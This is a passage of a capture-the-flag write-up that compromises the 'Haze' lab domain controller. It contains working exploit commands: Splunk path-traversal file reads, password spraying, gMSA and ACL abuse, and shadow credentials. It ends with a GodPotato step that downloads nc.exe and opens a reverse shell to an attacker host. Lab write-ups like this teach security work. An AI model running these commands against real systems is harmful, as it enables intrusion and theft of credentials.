| VGRWkGdD3xS9mOknh9r4Dut6zDyUdKvgrZJVoX7EiRsHhXAr9HRgqWj7khQLz3n9
| fjxxdJkXtGZaNdonWENSeb93HfiYGjSWQJMfNdTd2lMGMDMC4JdydEyGEHRAMNnZ
| y/zCOSP97yJOSSBbr6IZxyZG934bbEH9d9r0g/I4roDlzZFFBlGi542s+1QJ79FR
| IUrfZh41PfxrElITkFyKCJyU5gfPKIvxwDHclE+zY/ju2lcHJMtgWNvF6s0S9ic5
| oxg0+Ry3qngtwd4yUQIDAQABMA0GCSqGSIb3DQEBCwUAA4IBAQCbT8LwPCoR7I41
| dS2ZjVjntxWHf/lv3MgumorerPBufJA4nw5Yq1gnAYruIkAkfGS7Dy09NL2+SwFy
| NKZa41K6OWst/sRP9smtpY3dfeNu5ofTP5oLEbW2fIEuG4fGvkQJ0SQOPOG71tfm
| ymVCjLlMYMU11GPjfb3CpVh5uLRhIw4btQ8Kz9aB6MiBomyiD/MqtQgA25thnijA
| gHYEzB3W6FKtWtjmPcqDugGs2WU6UID/fFZpsp+3h2QLGN5e+e1OTjoIbexbJ/S6
| iRjTy6GUjsrHtHM+KBjUFvUvHi27Ns47BkNzA1gedvRYrviscPCBkphjo9x0qDdj
| 3EhgaH2L
|_-----END CERTIFICATE-----
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: 404 Not Found
| http-methods:
|_  Supported Methods: GET POST HEAD OPTIONS
8089/tcp  open  ssl/http      syn-ack ttl 127 Splunkd httpd
|_http-server-header: Splunkd
|_http-title: splunkd
| http-robots.txt: 1 disallowed entry
|_/
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US/emailAddress=support@splunk.com/localityName=San Francisco
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-05T07:29:08
| Not valid after:  2028-03-04T07:29:08
| MD5:   82e5:ba5a:c723:2f49:6f67:395b:5e64:ed9b
| SHA-1: e859:76a6:03da:feef:c1ab:9acf:ecc7:fd75:f1e5:1ab2
| -----BEGIN CERTIFICATE-----
| MIIDMjCCAhoCCQCtNoIdTvT1CjANBgkqhkiG9w0BAQsFADB/MQswCQYDVQQGEwJV
| UzELMAkGA1UECAwCQ0ExFjAUBgNVBAcMDVNhbiBGcmFuY2lzY28xDzANBgNVBAoM
| BlNwbHVuazEXMBUGA1UEAwwOU3BsdW5rQ29tbW9uQ0ExITAfBgkqhkiG9w0BCQEW
| EnN1cHBvcnRAc3BsdW5rLmNvbTAeFw0yNTAzMDUwNzI5MDhaFw0yODAzMDQwNzI5
| MDhaMDcxIDAeBgNVBAMMF1NwbHVua1NlcnZlckRlZmF1bHRDZXJ0MRMwEQYDVQQK
| DApTcGx1bmtVc2VyMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3SOu
| w9/K07cQT0p+ga9FjWCzI0Os/MVwpjOlPQ/o1uA/VSoNiweXobD3VBLngqfGQlAD
| VGRWkGdD3xS9mOknh9r4Dut6zDyUdKvgrZJVoX7EiRsHhXAr9HRgqWj7khQLz3n9
| fjxxdJkXtGZaNdonWENSeb93HfiYGjSWQJMfNdTd2lMGMDMC4JdydEyGEHRAMNnZ
| y/zCOSP97yJOSSBbr6IZxyZG934bbEH9d9r0g/I4roDlzZFFBlGi542s+1QJ79FR
| IUrfZh41PfxrElITkFyKCJyU5gfPKIvxwDHclE+zY/ju2lcHJMtgWNvF6s0S9ic5
| oxg0+Ry3qngtwd4yUQIDAQABMA0GCSqGSIb3DQEBCwUAA4IBAQCbT8LwPCoR7I41
| dS2ZjVjntxWHf/lv3MgumorerPBufJA4nw5Yq1gnAYruIkAkfGS7Dy09NL2+SwFy
| NKZa41K6OWst/sRP9smtpY3dfeNu5ofTP5oLEbW2fIEuG4fGvkQJ0SQOPOG71tfm
| ymVCjLlMYMU11GPjfb3CpVh5uLRhIw4btQ8Kz9aB6MiBomyiD/MqtQgA25thnijA
| gHYEzB3W6FKtWtjmPcqDugGs2WU6UID/fFZpsp+3h2QLGN5e+e1OTjoIbexbJ/S6
| iRjTy6GUjsrHtHM+KBjUFvUvHi27Ns47BkNzA1gedvRYrviscPCBkphjo9x0qDdj
| 3EhgaH2L
|_-----END CERTIFICATE-----
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
51763/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
51770/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
51771/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
51772/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
51791/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
51802/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
51827/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
51989/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
64337/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 46282/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 18830/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 26877/udp): CLEAN (Timeout)
|   Check 4 (port 63173/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
|   date: 2025-03-30T12:43:08
|_  start_date: N/A
|_clock-skew: 7h41m13s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
```

It reveals the hostname `DC01` and the domain `haze.htb`, make sure to add those and the FQDN to `/etc/hosts`.

```bash
10.10.11.61 dc01.haze.htb haze.htb dc01
```

## Splunk

### Enumeration

Currently, we didn't have any credentials and no anonymous access, so let's check the HTTP/HTTPS port. <br>
Splunk dashboard at `8000` needs a valid credential, I will skip it for now. We can get the current installed Splunk version at HTTPS port `8089`.



The current version has [CVE-2024-36991](https://www.sonicwall.com/blog/critical-splunk-vulnerability-cve-2024-36991-patch-now-to-prevent-arbitrary-file-reads) that allows Arbitrary File Read. We could get the Splunk's passwd file but the hash is uncrackable.  Based on the [Splunk documentation](https://docs.splunk.com/Documentation/Splunk/9.4.1/Admin/Listofconfigurationfiles), the `authentication.conf` file contains configuration about LDAP connection. This file is located inside `$SPLUNK_HOME/etc/system/default/`, but the path traversal from the PoC already exposed the amount path we need to reach the `$SPLUNK_HOME` directory.

### CVE-2024-36991

```bash
curl 'http://10.10.11.61:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/authentication.conf'
...
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = <hash>
...
```

You will find `Paul Taylor` hash. This hash is exclusively generated from Splunk hashing algorithm, we can crack it using [splunksecrets](github.com/HurricaneLabs/splunksecrets). Anyway, we need `splunk.secret` which is located at `$SPLUNK_HOME/etc/auth/splunk.secret` directory according to this [thread](https://community.splunk.com/t5/Knowledge-Management/What-is-the-splunk-secret-file-and-is-it-possible-to-change-it/m-p/331207).

```bash
curl 'http://10.10.11.61:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret' -o splunk.secret
````

Crack it with `splunksecrets`.

```bash
splunksecrets splunk-decrypt -S splunk.secret --ciphertext '<hash>'
```

We don't know the username format, so let's generate a username list with `username-anarchy`.

```bash
username-anarchy Paul Taylor > paul.txt
```

### Password Spraying

Launch password spraying with `nxc`.

```bash
> nxc smb haze.htb -u paul.txt -p '<password>' --no-bruteforce --continue-on-success
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
...
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:<password>
...
```

`paul.taylor` is the valid username.

# Auth as paul.taylor

## Users

It's worth trying another password spraying attack, but with valid usernames. Somehow, I can't get the users list with `--users` option, so I will use `--rid-brute` instead.

```bash
nxc smb haze.htb -u 'paul.taylor' -p '<password>' --rid-brute | awk '{print $6, $7, $8}' | cut -d "\\" -f 2 | grep SidTypeUser | sed 's/(Sid.*//g' > users.txt
```

## Password Spraying

Launch another password spraying attack.

```bash
> nxc smb haze.htb -u users.txt -p '<password>' --no-bruteforce --continue-on-success
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
...
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:<password>
SMB         10.10.11.61     445    DC01             [+] haze.htb\mark.adams:<password>
...
```

It works for `mark.adams` as well.

# Auth as mark.adams

## Enumeration

Now let's analyze the domain using `bloodhound`, collect the data remotely using `rusthound-ce` or `bloodhound-ce-python`.

```bash
rusthound-ce -d haze.htb -u mark.adams -p '<password>' -c All -o mark_dump
```

Let `bloodhound` ingest the data.



`paul.taylor` doesn't have interesting groups or ACEs, but `mark.adams` has some interesting groups. He belongs to `Remote Management Users` and `GMSA_MANAGERS` groups. If you check the user home directory by spawning a shell using `evil-winrm`, you will see that there's no flag yet. <br>
Because of the `GMSA_MANAGERS` group, let's check for GMSA passwords.

```bash
> nxc ldap haze.htb -u 'mark.adams' -p '<password>' --gmsa
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAPS       10.10.11.61     636    DC01             [+] haze.htb\mark.adams:<password>
LDAPS       10.10.11.61     636    DC01             [*] Getting GMSA Passwords
LDAPS       10.10.11.61     636    DC01             Account: Haze-IT-Backup$      NTLM:
```

It succeed finding an account that has GMSA password, but the NTLM hash in empty. It's so strange because from the `bloodhound` didn't show anything related to GMSA neither. <br>
So I will just try manual enumeration using [powerview.py](https://github.com/aniqfakhrul/powerview.py), you can also use [pywerview](https://github.com/the-useless-one/pywerview).

## GMSA Password

```bash
> powerview haze.htb/mark.adams:Ld@p_Auth_Sp1unk@2k24@10.10.11.61 --dc-ip 10.10.11.61
PV > Get-DomainObjectAcl -Identity haze-it-backup$ -SecurityIdentifier gmsa_managers
ObjectDN                    : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
ObjectSID                   : S-1-5-21-323145914-28650650-2368316563-1111
ACEType                     : ACCESS_ALLOWED_OBJECT_ACE
ACEFlags                    : None
AccessMask                  : WriteProperty
ObjectAceFlags              : ACE_OBJECT_TYPE_PRESENT
ObjectAceType               : ms-DS-GroupMSAMembership
InheritanceType             : None
SecurityIdentifier          : HAZE\gMSA_Managers

ObjectDN                    : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
ObjectSID                   : S-1-5-21-323145914-28650650-2368316563-1111
ACEType                     : ACCESS_ALLOWED_ACE
ACEFlags                    : None
ActiveDirectoryRights       : ReadControl,ReadProperties,ListChildObjects
AccessMask                  : ReadControl,ReadProperties,ListChildObjects
InheritanceType             : None
SecurityIdentifier          : HAZE\gMSA_Managers
```

Bingo, `GMSA_MANAGERS` group has `WriteProperty` to `ms-DS-GroupMSAMembership` attribute for `Haze-IT-Backup$` account. This property stores the security principals that can access the GMSA password and we can use [Set-ADServiceAccount](https://learn.microsoft.com/en-us/powershell/module/activedirectory/set-adserviceaccount?view=windowsserver2025-ps#example-3-set-the-principals-allowed-to-retrieve-the-password-for-an-msa) powershell command to add `mark.adams` to the list.

```powershell
Set-ADServiceAccount -Identity haze-it-backup$ -PrincipalsAllowedToRetrieveManagedPassword mark.adams
```

Try again the `nxc` command.

```bash
> nxc ldap haze.htb -u 'mark.adams' -p '<password>' --gmsa
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAPS       10.10.11.61     636    DC01             [+] haze.htb\mark.adams:<password>
LDAPS       10.10.11.61     636    DC01             [*] Getting GMSA Passwords
LDAPS       10.10.11.61     636    DC01             Account: Haze-IT-Backup$      NTLM: <hash>
```

# Auth as haze-it-backup$

## bloodhound

### WriteOwner



We have dead end after `SUPPORT_SERVICES` group. I will gather data remotely again because sometimes it reveals another attack path. But now I am using `bloodhound-ce-python` because `rusthound-ce` doesn't support Kerberos authentication yet.

```bash
# Syncronize time
sudo ntpdate haze.htb

bloodhound-ce-python -d haze.htb -u 'haze-it-backup$' --hashes :<hash> -c All --zip -op haze-it -dc dc01.haze.htb -ns 10.10.11.61
```

Unzip it and load it into `bloodhound`.




Cool, we can reset password or shadow credential to `edward.martin` user which is member of `Remote Management Users` and `BACKUP_REVIEWERS` group. Let's add `haze-it-backup$` to `SUPPORT_SERVICES` group by being the owner, add `genericAll` to itself, and become a member of `SUPPORT_SERVICES` group.

```bash
# Get TGT
getTGT.py 'haze.htb/haze-it-backup$@10.10.11.61' -hashes :<hash>
export KRB5CCNAME=$(realpath haze-it-backup\$@10.10.11.61.ccache)

bloodyAD -d haze.htb -k --host dc01.haze.htb set owner support_services 'haze-it-backup$'
bloodyAD -d haze.htb -k --host dc01.haze.htb add genericAll support_services 'haze-it-backup$'
bloodyAD -d haze.htb -k --host dc01.haze.htb add groupMember support_services 'haze-it-backup$'

# Get new TGT
getTGT.py 'haze.htb/haze-it-backup$@10.10.11.61' -hashes :<hash>
```

### Shadow Credentials

I tried to change `edward.martin` password but it failed because of the policy.

```bash
bloodyAD -d haze.htb -k --host dc01.haze.htb set password edward.martin 'P@ssw0rd!'
...
Password can't be changed before -2 days, 23:55:42.568450 because of the minimum password age policy.
```

Now, I will try the shadow credential. You can do it automatically using `certipy` or manually using `bloodyAD` or `pywhisker`. I will use `bloodyAD` here.

```bash
> bloodyAD -d haze.htb -k --host dc01.haze.htb add shadowCredentials edward.martin
[+] KeyCredential generated with following sha256 of RSA key: 424edb5db0b82a1239760368cdefa57d5f51f8823988713923d5ab9225cdab7d
No outfile path was provided. The certificate(s) will be stored with the filename: bgd9GFM4
[+] Saved PEM certificate at path: bgd9GFM4_cert.pem
[+] Saved PEM private key at path: bgd9GFM4_priv.pem
A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
Run the following command to obtain a TGT:
python3 PKINITtools/gettgtpkinit.py -cert-pem bgd9GFM4_cert.pem -key-pem bgd9GFM4_priv.pem haze.htb/edward.martin bgd9GFM4.ccache
```

```bash
> gettgtpkinit.py -cert-pem bgd9GFM4_cert.pem -key-pem bgd9GFM4_priv.pem haze.htb/edward.martin bgd9GFM4.ccache
2025-04-01 06:53:06,399 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-04-01 06:53:06,415 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-04-01 06:53:06,491 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-04-01 06:53:06,491 minikerberos INFO     472148b54cf64a9a676793ab6f8a679efb492c0e8eba7c0473ee9ca8a2f7d575
INFO:minikerberos:472148b54cf64a9a676793ab6f8a679efb492c0e8eba7c0473ee9ca8a2f7d575
2025-04-01 06:53:06,495 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

```bash
> export KRB5CCNAME=$(realpath bgd9GFM4.ccache)
> getnthash.py 'haze.htb/edward.martin' -key 472148b54cf64a9a676793ab6f8a679efb492c0e8eba7c0473ee9ca8a2f7d575
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
<nt_hash>
```

# Auth as edward.martin

## User Flag

```powershell
*Evil-WinRM* PS C:\Users\edward.martin\Desktop> cat user.txt
deadbeef3e687064cf1dec475e49fake
```

## Enumeration

This user is belongs to the `BACKUP_REVIEWERS` group and if check directory in the root path, you will see `Backups` directory. This folder contains `splunk_backup_2024-08-06.zip` file, just download it. After unzipping it, you will get backup files of splunk. You can get the `authentication.conf` file at `Splunk/var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf` path. This file contains password hash for `alexander.green`, you could do the previous method for `paul.taylor` user to crack it. The splunk secret is located at `Splunk/etc/auth/splunk.secret` path. <br>

`alexander.green` is belongs to the `Splunk_admins` group so maybe we could login to the splunk dashboard. Based on the splunk passwd file, there's no `alexander.green` user so let's try it with `admin` user instead.



And it works. After googling about reverse shell in splunk, I come across [reverse_shell_splunk](https://github.com/0xjpuff/reverse_shell_splunk) repository that provides reverse shell in splunk. Just follow the instruction and you will get a reverse shell as `alexander.green`.

# Shell as alexander.green

## SeImpersonatePrivilege

This user has `SeImpersonatePrivilege` privilege which basically means game over for the machine.

```powershell
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\Windows\system32>
```

I will use [GodPotato](https://github.com/BeichenDream/GodPotato) to abuse `SeImpersonatePrivilege` privilege.

```powershell
cd /programdata
mkdir bruh
cd bruh
wget http://10.10.x.x/nc.exe -o nc.exe
wget http://10.10.x.x/GodPotatoNet4.exe -o god.exe
./god.exe -cmd "/c C:\programdata\bruh\nc.exe -e cmd.exe 10.10.x.x 9002"
```

# Shell as nt authority\system

## Root Flag

```cmd
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
deadbeef095bf2f78d820a34545cfake
```
